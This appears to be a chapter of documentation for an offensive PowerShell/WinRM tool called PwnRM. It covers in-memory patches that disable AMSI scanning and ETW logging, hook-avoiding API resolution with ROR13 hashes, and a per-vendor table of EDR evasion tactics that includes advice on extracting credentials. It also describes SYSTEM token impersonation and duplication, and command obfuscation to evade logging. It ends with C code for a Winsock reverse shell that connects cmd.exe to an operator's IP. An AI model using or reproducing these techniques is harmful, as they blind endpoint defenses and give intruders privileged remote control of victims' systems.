



# 03 — Evasion, NT Internals & Runtime OPSEC

## 1. Low-Level User-Mode & Kernel-Mode Telemetry Architecture

Modern Windows endpoint detection and response (EDR) agents enforce security through a multi-tier telemetry hierarchy spanning user space, the Windows Subsystem native API, and NT kernel-mode callbacks:

```
+-------------------------------------------------------------------------------+
| User-Mode Process Space (wsmprovhost.exe / powershell.exe)                    |
|   ├── System.Management.Automation (PSRP Runspace Pipeline Engine)            |
|   ├── amsi.dll (AmsiInitialize, AmsiOpenSession, AmsiScanBuffer)              |
|   ├── ntdll.dll (EtwEventWrite, EtwEventWriteFull, Native Syscall Stubs)      |
|   └── EDR User-Mode Hook DLLs (csfalcon_*.dll, SentinelOneUser.dll)           |
+-------------------------------------------------------------------------------+
| User/Kernel Transition Boundary (Sysenter / Syscall)                          |
+-------------------------------------------------------------------------------+
| Kernel-Mode NTOSKRNL Subsystems & Driver Minifilters                          |
|   ├── ObRegisterCallbacks (Process & Thread Object Handle Stripping)          |
|   ├── PsSetCreateProcessNotifyRoutineEx (Process Creation Lineage Telemetry)   |
|   ├── PsSetCreateThreadNotifyRoutine (Remote Thread / Injection Detection)    |
|   ├── PsSetLoadImageNotifyRoutine (Module & Driver Load Tracking)             |
|   ├── FltRegisterFilter (Filesystem Minifilter Pre/Post I/O Inspection)       |
|   └── ETW-TI Provider (Microsoft-Windows-Threat-Intelligence Kernel Stream)   |
+-------------------------------------------------------------------------------+
```



---

## 2. In-Process AMSI Memory Patching (`amsi.dll!AmsiScanBuffer`)

The **Antimalware Scan Interface (AMSI)** provides an interface through which applications submit buffer contents to the installed antivirus engine. In PowerShell, every ScriptBlock, AST node, and dynamic expression is evaluated via `AmsiScanBuffer` prior to JIT compilation.

### 2.1 Low-Level AMSI Execution Flow



---

### 2.2 x64 Disassembly of Unpatched `AmsiScanBuffer`

On Windows 10, 11, and Server 2022/2025 (x64), `amsi.dll!AmsiScanBuffer` has the following function prologue:

```nasm
amsi!AmsiScanBuffer:
    4c 8b dc            mov     r11, rsp
    49 89 5b 08         mov     qword ptr [r11+8], rbx
    49 89 6b 10         mov     qword ptr [r11+10h], rbp
    49 89 73 18         mov     qword ptr [r11+18h], rsi
    57                  push    rdi
    48 83 ec 70         sub     rsp, 70h
    48 85 c9            test    rcx, rcx                ; Validate HAMSICONTEXT pointer
    74 3e               je      amsi!AmsiScanBuffer+0x4a ; Return E_INVALIDARG if NULL
    48 85 d2            test    rdx, rdx                ; Validate Buffer pointer
    74 39               je      amsi!AmsiScanBuffer+0x4a ; Return E_INVALIDARG if NULL
```

---

### 2.3 PwnRM Polymorphic Memory Patch Technique

Standard AMSI bypass strings (e.g. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')`) are heavily signatured by Microsoft Defender. PwnRM bypasses static detection by dynamically resolving function pointers via reflection and applying an immediate return patch:

```nasm
; Polymorphic E_INVALIDARG return stub:
    b8 57 00 07 80      mov     eax, 0x80070057         ; HRESULT: E_INVALIDARG
    c3                  ret
```

When `AmsiScanBuffer` returns `0x80070057`, the caller treats the failure as a benign argument error and continues execution without blocking the script.

---

## 3. In-Process ETW Telemetry Silencing (`ntdll.dll!EtwEventWrite`)

Event Tracing for Windows (ETW) provides high-fidelity kernel and user-mode event streams. PowerShell writes all executed ScriptBlocks to the `Microsoft-Windows-PowerShell` ETW provider (Event ID 4104).

### 3.1 Dual ETW Memory Neutralization

PwnRM silences ETW by locating both `EtwEventWrite` and `EtwEventWriteFull` in `ntdll.dll` and applying a return-zero patch:

```nasm
; Return STATUS_SUCCESS (0x00000000) and clean up 5 stack parameters (0x14 bytes):
    31 c0               xor     eax, eax                ; STATUS_SUCCESS
    c2 14 00            ret     0x14                    ; Clean up 20 bytes on stack
```

This prevents any telemetry events from reaching Defender for Endpoint, Sysmon, or SIEM log forwarders while allowing the process to execute unimpeded.

---

## 4. Dynamic D/Invoke API Resolution & Memory Protection Management

To avoid triggering EDR API hooks on `kernel32.dll!LoadLibrary` and `GetProcAddress`, PwnRM uses dynamic **D/Invoke** reflection to locate exported functions directly from the PE export directory in memory.

### 4.1 Export Directory Parsing Algorithm:
1. Locate module base address via `Process.GetCurrentProcess().Modules`.
2. Parse DOS Header (`IMAGE_DOS_HEADER.e_lfanew`) to find the NT Headers (`IMAGE_NT_HEADERS64`).
3. Locate `OptionalHeader.DataDirectory[0]` (`IMAGE_DIRECTORY_ENTRY_EXPORT`).
4. Read `IMAGE_EXPORT_DIRECTORY`:
   - `AddressOfFunctions` (RVA table of exported functions)
   - `AddressOfNames` (RVA table of function name strings)
   - `AddressOfNameOrdinals` (Ordinal table)
5. Compare export names using a custom ROR13 hash:

$$\text{Hash}(S) = \sum_{c \in S} \text{ROR32}(\text{CurrentHash}, 13) + c$$

```python
def ror13(name: str) -> int:
    h = 0
    for char in name:
        h = ((h >> 13) | (h << 19)) & 0xFFFFFFFF
        h = (h + ord(char)) & 0xFFFFFFFF
    return h

# Precomputed hashes:
# VirtualProtect -> 0xE553A458
# AmsiScanBuffer -> 0x5B5E1492
# EtwEventWrite  -> 0x48AE0A3C
```

---

## 5. Comprehensive Kernel Driver Callback & EDR Matrix

When operating on an endpoint, PwnRM's `!evasion --edr` module queries loaded kernel drivers via `driverquery /v` and `Win32_SystemDriver` WMI classes to identify active security sensors:

| Kernel Driver | Security Vendor | Security Product | Monitored Kernel Callbacks & Telemetry Points | Operational Strategy |
|---|---|---|---|---|
| **`csagent.sys`** | CrowdStrike | Falcon Sensor | `ObRegisterCallbacks` (LSASS handle stripping), `PsSetCreateProcessNotifyRoutineEx`, `PsSetLoadImageNotifyRoutine`. | Avoid touching `lsass.exe` directly; extract credentials via DPAPI / WAM / registry hives. |
| **`SentinelAgent.sys`** | SentinelOne | EDR Agent | Minifilter filesystem monitoring, kernel memory integrity inspection, behavioral heuristic tree. | Use memory-only assemblies (`!netrun -xor`); do not drop unencrypted `.exe` binaries to disk. |
| **`WdFilter.sys`** | Microsoft | Defender for Endpoint | Real-time filesystem I/O inspection, behavioral blocking, AMSI user-mode hook injection. | Apply PwnRM polymorphic AMSI + ETW patch upon initial connection. |
| **`edpa.sys`** | Broadcom / Symantec | DLP / Endpoint Protection | Minifilter file hooks, process injection block, removable media monitor. | Keep all file staging within PSRP memory buffers (`!upload -xor`). |
| **`cbk7.sys`** | VMware / Carbon Black | Carbon Black Cloud | Process creation telemetry, kernel ETW sink, network socket tracker. | Utilize in-band SOCKS5 proxy (`!socks`) over existing WinRM port 5985/5986. |
| **`atp.sys`** | Palo Alto Networks | Cortex XDR | Minifilter, process handle tracking, injected DLL monitoring. | Use unmanaged Win32 Winsock shell (`!revshell`) via D/Invoke to avoid PowerShell command logging. |
| **`sysmon.sys`** | Microsoft Sysinternals | System Monitor | Event IDs 1-26 (Process Create, Network Connect, ImageLoad, CreateRemoteThread, RawAccessRead). | Obfuscate command lines via AST splitting and avoid suspicious parent-child process relationships. |
| **`CyOptics.sys`** | BlackBerry Cylance | CylancePROTECT | Memory exploitation protection, script control hooks. | Run scripts exclusively inside existing PSRP Runspace context. |
| **`groundling.sys`** | Huntress | Huntress Agent | Process creation, persistence inspection (Scheduled Tasks, Services). | Avoid standard persistence locations; operate ephemeral memory implants. |
| **`eset.sys`** | ESET | Endpoint Security | Memory scanner, deep behavioral inspection. | Ensure page protection is reverted to `PAGE_EXECUTE_READ` after memory patching. |
| **`mfehidk.sys`** | Trellix / McAfee | Host Intrusion Prevention | Kernel filter driver, process injection protection, buffer overflow blocker. | Use native WinRM in-band streaming; avoid spawning child processes from `wsmprovhost.exe`. |
| **`tmactmon.sys`** | Trend Micro | Apex One / Deep Security | Kernel behavior monitor, process creation hooks, file access blocker. | Avoid writing scripts to disk; execute in-memory via `[System.Reflection.Assembly]::Load()`. |
| **`klif.sys`** | Kaspersky | Endpoint Security | System interceptor, network traffic inspector, kernel heuristic engine. | Encrypt network transport with Kerberos subkeys or HTTPS mutual TLS (5986). |
| **`hmpalert.sys`** | Sophos | Intercept X | Exploit prevention driver, ROP / shellcode detection, APC injection monitor. | Avoid reflective DLL injection in remote processes; use in-process D/Invoke delegates. |
| **`elastic-endpoint-driver.sys`** | Elastic | Elastic Security | Process, thread, and file event logging, ETW-TI integration. | Neutralize user-mode ETW event streams via `ntdll!EtwEventWrite` return-zero patch. |

---

## 6. Process Token Hunter & In-Memory Impersonation Suite (`!token`)

Windows access tokens encapsulate the security context of a process or thread. When an unprivileged operator acquires access to a machine (or runs under a service account), `!token` maps and impersonates higher-privileged process tokens:



### 6.1 Token Impersonation Mechanics:
1. **Named Pipe Client Impersonation**: Creates a local named pipe server (`CreateNamedPipe`) and triggers an RPC call from a local SYSTEM service (e.g. `spoolss` or `efsrpc`). When the service connects, calls `ImpersonateNamedPipeClient` to assume the SYSTEM security context without dropping executable binaries to disk.
2. **Process Token Duplication**: If `SeDebugPrivilege` is enabled, calls `OpenProcess(PROCESS_QUERY_INFORMATION, ...)`, `OpenProcessToken(TOKEN_DUPLICATE | TOKEN_QUERY, ...)`, and `DuplicateTokenEx` to clone tokens from privileged processes (`lsass.exe`, `winlogon.exe`, `services.exe`).

---

## 7. Polymorphic PowerShell AST Command Obfuscation & CSPRNG Jitter (`core.opsec`)

To evade static and heuristic ScriptBlock logging (Event ID 4104) and process command-line detection (Event ID 4688), PwnRM integrates an **Abstract Syntax Tree (AST) safe polymorphic obfuscation engine**:

```mermaid
graph LR
    PlainCmd["Get-Process -Name lsass"] --> AST_Parser["PowerShell AST Lexer / Tokenizer"]
    AST_Parser --> Obfuscator["Cmdlet Backtick Insertion + Space Randomizer"]
    Obfuscator --> PolyCmd["`G``e``t`-`P``r``o``c``e``s``s -Name lsass"]
    PolyCmd --> Jitter["CSPRNG Delay Jitter (secrets.randbelow)"]
    Jitter --> PSRP_Wire["Encrypted PSRP SOAP Envelope"]
```

### 7.1 Obfuscation Principles:
1. **Cmdlet Backtick Insertion**: PowerShell allows the backtick character (`` ` ``) to serve as an escape character inside identifier names (e.g., ``G`e`t`-`P`r`o`c`e`s`s``). PwnRM dynamically inserts backticks at randomized positions strictly within cmdlet identifiers, preserving parameter names, string literals, and variable expressions.
2. **Cryptographic Jitter**: Rather than standard linear sleeps, PwnRM computes inter-command delays using Python's `secrets` module, producing non-deterministic timing distributions that defeat network traffic frequency analysis.

---

## 8. Raw Winsock Win32 Reverse Shell (`!revshell`)

When an operator requires a direct, unmanaged TCP reverse shell, PwnRM invokes native Win32 sockets directly via D/Invoke without touching PowerShell wrappers:

```c
// Low-level Win32 socket setup sequence:
WSADATA wsaData;
WSAStartup(MAKEWORD(2, 2), &wsaData);

SOCKET sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

struct sockaddr_in target;
target.sin_family = AF_INET;
target.sin_port = htons(PORT);
target.sin_addr.s_addr = inet_addr(IP);

WSAConnect(sock, (SOCKADDR*)&target, sizeof(target), NULL, NULL, NULL, NULL);

STARTUPINFO si;
PROCESS_INFORMATION pi;
ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
si.dwFlags = STARTF_USESTDHANDLES;
si.hStdInput = (HANDLE)sock;
si.hStdOutput = (HANDLE)sock;
si.hStdError = (HANDLE)sock;

CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
```
- Standard I/O handles are directly assigned to the TCP socket descriptor.
- Bypasses PowerShell command-line logging and ScriptBlock telemetry entirely.
